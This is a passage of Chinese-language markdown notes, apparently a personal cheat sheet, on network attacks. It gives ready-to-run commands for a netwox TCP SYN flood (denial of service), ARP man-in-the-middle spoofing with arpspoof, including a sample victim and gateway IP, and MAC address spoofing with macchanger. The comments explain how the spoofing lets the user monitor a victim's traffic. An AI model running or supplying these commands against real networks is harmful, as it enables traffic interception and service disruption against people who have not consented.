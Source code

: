 ~~~shell
# 编号的功能参考：https://devdiv.github.io/school/tools/net/netwox/#%E4%B8%8B%E8%BD%BD
# 基于tcp的 Floot攻击（DOS攻击的一种） sudo netwox 76 -i 127.0.0.1 -p 22
# 通过 sudo netstat -apn | SYN 可以看到有很多TCP连接
~~~

# arp中间人攻击
~~~shell
# 查看arp缓冲表
arp -a

# 删除arp缓冲表
arp -d

# 持续性的发送数据包给目标地址，欺骗受害人 "目标ip地址"(其实是别人上网流量会经过的地址) 要映射到我的网卡mac地址，一般目标ip地址是网关地址，即上网传输的包都会被我监控
sudo arpspoof -i [我的网卡名称] -t [受害人ip地址] [目标ip地址]
# 注意 arpspoof 只限于局域网并且无法跨网段欺骗
# 例如 sudo arpspoof -i eth0 -t 192.168.0.200 192.168.0.1
~~~

# mac地址欺骗
~~~shell
# 使用macchanger进行修改MAC地址进行欺骗，当然重启之后会恢复为真实的硬件MAC地址
macchanger [参数] [网卡名称]
# -s：显示网卡的 MAC 地址并退出，Current MAC是当前的MAC地址，Permanent MAC是真实的硬件MAC地址
# -e：不更改厂商字节（MAC地址的前3个字节是厂商字节），而修改后3个字节
# -a：设置相同类型的随机厂商 MAC 地址
# -A：设置任意类型的随机厂商 MAC 地址
# -p：注意不要用这个，它会重置永久硬件 MAC 地址
# -r：设置完全随机的 MAC 地址
# -l：打印已知厂商，获取苹果的MAC厂商地址 macchanger -l | grep Apple，获取华为的MAC厂商地址 macchanger -l | grep Huawei
# -b：假装是烧录地址
# -m：设置指定的MAC地址，例如 -m XX:XX:XX:XX:XX:XX 或者 --mac=XX:XX:XX:XX:XX:XX


# 先关闭要修改MAC地址的网卡
ifconfig [网卡名称] down

# 修改网卡的MAC地址，注意前3个字节需要是正规存在的 MAC 厂商字节，否则设置失败
macchanger -m XX:XX:XX:XX:XX:XX [网卡名称]

# 开启网卡
ifconfig [网卡名称] up

# 查看网卡mac地址是否修改
ifconfig
~~~
